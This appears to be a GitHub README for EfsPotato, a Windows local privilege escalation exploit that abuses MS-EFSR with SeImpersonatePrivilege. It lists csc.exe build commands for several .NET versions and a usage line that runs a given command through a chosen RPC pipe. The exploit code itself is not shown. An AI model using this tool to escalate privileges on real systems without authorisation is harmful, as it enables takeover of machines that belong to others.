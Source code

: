 ## Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).

### build

	#for 4.x
	csc.exe EfsPotato.cs -nowarn:1691,618
	csc /platform:x86 EfsPotato.cs -nowarn:1691,618
	
	#for 2.0/3.5
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs -nowarn:1691,618
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs -nowarn:1691,618
	
	#修改版
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato_new.cs -nowarn:1691,618
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato_new.cs -nowarn:1691,61

### usage

	usage: EfsPotato <cmd> [pipe]
  	  pipe -> lsarpc|efsrpc|samr|lsass|netlogon (default=lsarpc)

![](https://raw.githubusercontent.com/zcgonvh/EfsPotato/master/test.png)
 
